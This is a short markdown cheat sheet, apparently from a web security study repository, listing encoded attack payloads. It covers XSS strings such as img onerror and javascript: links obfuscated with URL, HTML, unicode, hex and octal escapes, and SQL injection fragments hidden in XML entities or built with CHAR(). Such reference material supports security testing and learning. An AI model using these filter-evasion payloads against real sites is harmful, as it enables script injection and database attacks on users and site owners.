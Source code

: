 # Obfuscating attacks using encodings

## Obfuscation via URL encoding

```
[...]/?search=Fish+%26+Chips
```

## Obfuscation via double URL encoding

```
[...]/?search=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
```

```
[...]/?search=%253Cimg%2520src%253Dx%2520onerror%253Dalert(1)%253E
```

## Obfuscation via HTML encoding

```
<img src=x onerror="&#x61;lert(1)">
```

## Leading zeros

```
<a href="javascript&#00000000000058;alert(1)">Click me</a>
```

## Obfuscation via XML encoding

```
<stockCheck>
    <productId>
        123
    </productId>
    <storeId>
        999 &#x53;ELECT * FROM information_schema.tables
    </storeId>
</stockCheck>
```

## Obfuscation via unicode escaping

```
eval("\u0061lert(1)")
```

```
<a href="javascript\u{0000000003a}alert(1)">Click me</a>
```

## Obfuscation via hex escaping

```
eval("\x61lert")
```

## Obfuscation via octal escaping

```
eval("\141lert(1)")
```

## Obfuscation via multiple encodings

```
<a href="javascript:&bsol;u0061lert(1)">Click me</a>
```

```
<a href="javascript:\u0061lert(1)">Click me</a>
```

```
<a href="javascript:alert(1)">Click me</a>
```

## Obfuscation via the SQL CHAR() function

```
CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84)
```
